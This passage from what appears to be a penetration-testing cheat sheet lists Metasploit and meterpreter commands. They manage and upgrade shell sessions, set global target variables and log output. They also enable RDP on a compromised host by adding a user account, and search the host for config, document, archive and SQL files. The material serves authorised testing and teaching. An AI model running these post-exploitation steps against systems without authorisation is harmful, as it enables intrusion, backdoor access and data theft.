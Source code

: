 Kill all sessions

```
msf6> sessions -K
```

Upgrade a shell to a meterpreter session on many platforms

```
msf6> sessions -u
```

## Metasploit Tips I Discovered Too Late

In order to save a lot of typing during a pentest, you can set global variables within msfconsole. You can do this with the setg command. Once these have been set, you can use them in as many exploits and auxiliary modules as you like. You can also save them for use the next time you start msfconsole. However, the pitfall is forgetting you have saved globals, so always check your options before you run or exploit. Conversely, you can use the unsetg command to unset a global variable. In the examples that follow, variables are entered in all-caps (ie: LHOST), but Metasploit is case-insensitive so it is not necessary to do so.

```
msf > setg LHOST 192.168.1.101
LHOST => 192.168.1.101
msf > setg RHOSTS 192.168.1.0/24
RHOSTS => 192.168.1.0/24
msf > setg RHOST 192.168.1.136
RHOST => 192.168.1.136
```

To capture the output of modules ran within Metasploit, utilize the spool command and designate a destination log file.

```
msf6> spool /tmp/Company_A_DC.log
```

Enable RDP:

```
meterpreter > run getgui -u rosesecurity -p password
```

Cleanup RDP:

```
meterpreter > run multi_console_command -rc /root/.msf4/logs/scripts/getgui/clean_up__20110112.2448.rc
```

Run modules against file of hosts:

```
msf6> set RHOSTS file:/tmp/nmap_output_hosts.txt
```

Search for interesting files:

```
meterpreter> search -f *.txt
meterpreter> search -f *.zip
meterpreter> search -f *.doc
meterpreter> search -f *.xls
meterpreter> search -f config*
meterpreter> search -f *.rar
meterpreter> search -f *.docx
meterpreter> search -f *.sql
```

